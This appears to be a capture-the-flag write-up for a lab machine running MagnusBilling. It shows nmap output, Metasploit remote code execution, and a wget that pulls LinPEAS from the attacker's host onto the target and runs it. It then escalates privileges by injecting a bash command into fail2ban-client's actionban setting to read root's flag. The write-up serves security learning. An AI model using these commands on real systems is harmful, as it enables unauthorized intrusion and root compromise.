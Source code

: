 # Billing
IP - 10.10.59.81

## Scanning and Enumeration
nmap scan:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling
|Requested resource was http://10.10.59.81/mbilling/
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:
/robots.txt - found: /mbilling/

- MagnusBilling - found by going to HTML source code (ctrl + U)

## Remote Code Execution using Metasploit
- In msfconsole searched for MagnusBilling 
![image](https://github.com/user-attachments/assets/68f4782c-c1eb-4e5d-b169-ccba7dd631e7)
- set RHOST and LHOST and then ran the command
![image](https://github.com/user-attachments/assets/9d00dd2e-127f-4bfa-8a3b-9b850ad14913)

- Navigate /home > found user "magnus" and inside his files I found the first flag.
- found id
``` 
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
``` 
- Executed LinPEAS to get more info about the machine:


1). ``` python3 -m http.server 8000 ``` (opened new tab in the terminal and ran this command in LinPEAS directory)


2). On the target machine I ran those 3 commands: ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```


3). ``` chmod +x /tmp/linpeas.sh ```


4). ``` /tmp/linpeas.sh ```


5). results found:
```
Runas and Command-specific defaults for asterisk:
Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```
> indicating that you can run fail2ban-client without a password
![image](https://github.com/user-attachments/assets/ccf1934f-1b38-49a2-9288-182c3b35fc81)

## Exploit
Found exploit for fail2ban-client - https://vulners.com/packetstorm/PACKETSTORM:189989
- Step by step:

1). ``` sudo /usr/bin/fail2ban-client restart ```

2). ``` sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'" ```

3). ``` sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1 ```

4). ``` cat /tmp/root.txt ``` > captured the last flag
![image](https://github.com/user-attachments/assets/e7ed40cb-c154-4ef2-ba5f-61ed88d15968)
